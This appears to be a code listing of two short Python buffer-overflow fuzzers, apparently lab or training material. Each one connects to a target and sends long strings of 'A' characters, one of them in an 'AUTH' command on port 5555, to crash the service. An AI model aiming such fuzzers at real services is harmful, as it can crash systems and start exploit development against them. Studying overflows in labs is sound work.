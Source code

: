 ```
################ sample 1 ################################################
#!/usr/bin/python

import socket,sys

if len(sys.argv) != 3:
    print("usage: python fuzzer.py 10.11.1.111 PORT")
    exit(1)

payload = "A" * 1000

ipAddress = sys.argv[1]
port = int(sys.argv[2])

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    print "Sending payload"
    s.send(payload)
    print "Done"
    s.close()
except:
    print "Error"
    sys.exit(0)

################ sample 2 ################################################
#!/usr/bin/python
import time, struct, sys
import socket as so

try:
    server = sys.argv[1]
    port = 5555
except IndexError:
    print "[+] Usage %s host" % sys.argv[0]
    sys.exit()

req1 = "AUTH " + "\x41"*1072
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try:
     s.connect((server, port))
     print repr(s.recv(1024))
     s.send(req1)
     print repr(s.recv(1024))
except:
     print "[!] connection refused, check debugger"
s.close()
```

